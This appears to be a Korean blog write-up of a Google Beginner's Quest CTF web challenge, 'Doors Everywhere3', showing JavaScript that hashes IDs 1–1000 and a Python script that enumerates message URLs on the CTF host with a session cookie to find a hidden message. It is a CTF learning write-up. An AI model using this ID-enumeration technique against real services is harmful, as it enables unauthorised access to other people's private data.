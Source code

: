 ```yaml
---
layout: post
title: "Doors Everywhere3"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking]
categories: web
---
```


Google Beginner's Request

Doors Everywhere3

***

**Google Beginner's Request - Doors Everywhere3**

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/1.png)

Doors Everywhere3
비밀 메세지를 볼 수 없다고 설명하고 있다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/2.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/3.png)


로그인 뒤 비밀 메세지 안에 개발자 도구를 확인하니
generateHash를 통해 비밀 ID를 해시값으로 변경 후 
그 값으로 Secret ID를 생성 하는 로직이며,
Secret ID를 Path로 입력 시 그 메세지를 확인할 수 있는 로직이다.

개발자 도구의 주석에서 뭐라고 적혀있긴 한데
번역기를 돌려놔서 그런지 잘 모르겠다;;

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/4.png)

어쨌든 generateHash에 들어가는 value값을 변경 시
Secret ID에 원하는 값이 나온다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/5.png)

1의 값을 generateHash로 변경 후 path에 입력 시
비밀 메세지의 예시가 나온다.

# 따라서

1~1000까지의 값들을 Hash로 변경 후
path에 대입하면 값이 나올 것이다.

***

1. 1~1000까지의 해시값 얻기

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/6.png)

1~1000까지의 값을 콘솔로 얻어낸다.

사용한 코드

{% highlight js %}
function generateHash(messageId) {
    const hashHex = sha3_256(messageId.toString());
    console.log(`ID: ${messageId} → Hash: ${hashHex}`);
}

// 1부터 1000까지 해시 생성
for (let i = 1; i <= 1000; i++) {
    generateHash(i);
}
{% endhighlight %}

2. python을 통해 값 얻어내기

얻어낸 1~1000까지의 값을 대입하여 본다.

존재하지 않는 값을 기준으로 잡고,
그 값의 text 길이와 동일하지 않다면 값을 출력하는 로직이다.

{% highlight js %}
import requests
import time
cookies = {
    'session': '[세션값]',
}
import warnings
warnings.filterwarnings('ignore')
headers = {
    'Host': 'secuweb-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
    # 'Cookie': 'session=.[세션값]',
}

a=["67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2",
"b1b1bd1ed240b1496c81ccf19ceccf2af6fd24fac10ae42023628abbe2687310",
...
"006e9d54d7ebe3029abf15866b51294ce3defb2bc2c27762570819f0959b250499"]

OriginResponse = requests.get(
    f'https://secuweb-web.2024-bq.ctfcompetition.com/message/1666',
    cookies=cookies,
    headers=headers,
    verify=False,
)

count = 0
for i in a:
    count+=1
    response = requests.get(
        f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{i}',
        cookies=cookies,
        headers=headers,
        verify=False,
    )
    if len(OriginResponse.text) != len(response.text):
        print(response.text)
        print(count)
        print(i)

{% endhighlight %}

하다보면 이렇게 손으로 하는 건 아닌지 걱정도 해주고

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/7.png)

레고 세트 교환식도 한다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/8.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/9.png)

여튼 Flag 획득

**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.
